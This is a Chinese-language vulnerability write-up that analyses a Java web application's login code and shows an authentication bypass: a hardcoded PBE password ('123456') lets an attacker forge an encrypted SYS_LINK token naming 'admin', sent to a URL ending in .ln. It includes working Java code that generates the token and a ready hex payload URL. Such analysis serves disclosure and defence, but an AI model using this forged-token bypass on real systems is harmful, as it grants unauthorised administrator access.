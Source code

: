本文会先从正常登录逻辑分析，从而找到该系统认证的过程和方式，进而搜索相关接口找到其他登录接口，进而利用漏洞绕过登录

0x01 正常登录逻辑分析
=============

首先先来看正常的登录流程，我们输入用户名和密码，然后抓包

![image-20231121095258925](https://shs3.b.qianxin.com/butian_public/f9791301ffd8802f56728606e202ff8a0ff95627644c1.jpg)

可以看到请求了`/login/login_valid.jsp`，然后找对对应的文件

![image-20231121095415803](https://shs3.b.qianxin.com/butian_public/f5740383cfe2f15c8dd320ff8be5c81723ea87225d681.jpg)

可以看到这里取了post发送的数据，并调用`userLoginService.login`方法返回一个Map对象，返回有关登录结果或其他信息的键值对，所以这个对象就是处理登录的逻辑，我们继续跟进这个方法。

![image-20231121095926062](https://shs3.b.qianxin.com/butian_public/f844910f2dc6d23693225f1377bbdbaed509f31fddf0e.jpg)

在`userLoginService.login`方法中，可以看到他继续调用了`loginByRequest`方法

![image-20231121101110358](https://shs3.b.qianxin.com/butian_public/f46872230a0ce76d9b834702def8f2bb92b5cf3f8b243.jpg)

在`loginByRequest`中就是一般登陆验证的正常操作，将userName和password带入`userLogic.getUser`中进行验证，这里会通过sql语句进行查询判断，如果验证成功则会设置对应的cookie，之后不做过多赘述。

0x02 寻找漏洞
=========

经过观察和分析，发现从这里是不好下手的，各种验证措施也比较完善，所以我们从其他地方下手。

这里我们打开这个类的的结构，查看其中所有的方法，我们发现登录方式不止可以通过`loginByRequest`，还有其他的方法：

![image-20231121101759018](https://shs3.b.qianxin.com/butian_public/f73730694eb57262fa1a5dedc9cad4f6d788320bed821.jpg)

通过传入的参数和方法名可以推断出该系统有4中登录认证方式：分别是通过域登录(loginByAD)，统一身份认证登录(loginByCas)，用户名密码普通登录(loginByRequest)以及直接通过用户名登录(loginByUserName)

其中通过域登录由于无法获取域账户而首先放弃研究，所以主要看统一身份认证登录(loginByCas)是怎样实现的

![image-20231121110224140](https://shs3.b.qianxin.com/butian_public/f805723703c7cb4544a54cf6ad68a319f238d455db66c.jpg)

可以看到loginByCas最后还是调用的loginByUserName

![image-20231121111425394](https://shs3.b.qianxin.com/butian_public/f782666f242fd9d46198b2676be990b56424892b76699.jpg)

在loginByUserName也是直接通过判断用户名是否在数据库中，如果存在，后续的操作和前面loginByRequest的流程一样。

所以接下来的思路就是寻找直接调用了`loginByUserName`或`loginByCas`的地方，这里使用jadx-gui进行搜索，因为idea不支持直接搜索jar包中的代码内容，当然也可以将jar包反编译后进行搜索。

![image-20231121150820308](https://shs3.b.qianxin.com/butian_public/f172219795cded6389ba5e048bb683f5b174d49c00162.jpg)

这里搜索到`loginByUserName`的调用方法只有在刚刚那几个方法中，没啥用处

![image-20231121150843464](https://shs3.b.qianxin.com/butian_public/f26799528ea5b88efed80349f47d317615987aa843ba3.jpg)

搜索`loginByCas`调用的方法就多了，这里我找了上方红框中的一个点，在`ControllerFilter`中的`doFilter`方法中。(另外其他接口也可以造成登录绕过，有兴趣的师傅可以自己动手分析)

![image-20231121153806745](https://shs3.b.qianxin.com/butian_public/f489220f0b2d7de5e0558725757a9af208d4e55cd72fa.jpg)

经过对代码分析，发现要触发这里的`loginByCas`方法需要url以`.ln`结尾，然后从`SYS_LINK`参数中取到的值，并使用 `SYS_LINK` 的值获取一个 `LinkMeta` 对象，然后从 `LinkMeta` 中获取用户对象，最后将获取的用户名带入到`loginByCas`中进行登录。这里的`SYS_LINK`可控，所以主要看`LinkUtil.getLinkMeta`方法中的处理逻辑。

![image-20231121170710471](https://shs3.b.qianxin.com/butian_public/f582864a603b429e29105b16f0562cf0582b5e21af436.jpg)

在`getLinkMeta`中，这里首先对传入的值进行hex解码，使用`EncrypUtil.decrypt`进行解密，然后以`||`进行分割，分割的三个值分别为跳转的日期，时间，用户名。

所以这里如果我们构造参数为`/servlet/main||2024-01-01||admin`，就可以使得分割后第三个元素被`setUser`，进而传递到下面作为`loginByCas`从而进行的登录，注意时间要在当前的时间之后，因为在`doFilter`会对时间做校验。

接下来看一下他的加密方法

![image-20231121154521814](https://shs3.b.qianxin.com/butian_public/f7239706c84820d5a0d4f2ff19ecc764c48a79ddcf164.jpg)

![image-20231121154457430](https://shs3.b.qianxin.com/butian_public/f26871588b77289eb65341938e3feafb4aaa78e0e7dd5.jpg)

可以看到这里的加密方法是`PBEWithMD5AndDES`，并且知道密码是`123456`

> PBE（Password Based Encryption，基于口令加密）算法是一种基于口令的加密算法，其特点在于口令是由用户自己掌握的，采用随机数杂凑多重加密等方法保证数据的安全性, PBE算法没有密钥的概念，密钥在其它对称加密算法中是经过算法计算得出来的，PBE算法则是使用口令替代了密钥。

所以我们只需要调用他的加密方法即可：

```java
import org.jasypt.util.text.BasicTextEncryptor;

import java.io.UnsupportedEncodingException;
import java.math.BigInteger;
import java.nio.charset.StandardCharsets;

public class EncrypUtil {
    public static String password = "123456";
    public static Boolean stringOutputTypeBase64 = false;

    public static String encrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String myEncryptedText = textEncryptor.encrypt(text);
        return myEncryptedText;
    }

    public static String decrypt(String text) {
        BasicTextEncryptor textEncryptor = new BasicTextEncryptor();
        textEncryptor.setPassword(password);
        String plainText = textEncryptor.decrypt(text);
        return plainText;
    }
    private static String bytesToHex(byte[] bytes) {
        BigInteger bigInt = new BigInteger(1, bytes);
        return bigInt.toString(16);
    }

    public static void main(String[] args) throws UnsupportedEncodingException {
        String result = encrypt("/servlet/main||2024-01-01||admin");
        System.out.println("encrypt String: " +result);
        byte[] bytes = result.getBytes(StandardCharsets.UTF_8);
        String hexEncodedString = bytesToHex(bytes);
        System.out.println("Hex Encoded String: " + hexEncodedString);
    }
}
```

![image-20231121172133989](https://shs3.b.qianxin.com/butian_public/f323542fb52cab719db7a47e5e417433206490a3a4d7c.jpg)

（这里注意如果你运行的结果和我的不一样也是没问题的，因为该算法每次加密后的结果都不一样）

构造完payload就要找到如何可以触发，由于这段代码在`doFilter`中，所以我们可以首先在`web.xml`中搜索他哪些路由会经过该过滤器，经过搜索发现以下url后缀中的路由都会经过该过滤器，正好包括`.ln`结尾的路由。

![image-20231121151554400](https://shs3.b.qianxin.com/butian_public/f1786970fe2a258198d36c16bfaa93714147ce12ab91e.jpg)

0x03 漏洞复现
=========

所以最后我们构造的payload为：

```php
/1.ln?SYS_LINK=736a356b37475635563576783561796242424c31554c4c6c6a585767516b757338386178663935616f59626e584b65503051462b2b4155335535547a41684734
```

![image-20231127151650911](https://shs3.b.qianxin.com/butian_public/f105670e787988d59f88c9fe4dc7ecbc8273377942707.jpg)

![image-20231127151538787](https://shs3.b.qianxin.com/butian_public/f4772590d297062844a2621a81869023c5723181bcffc.jpg)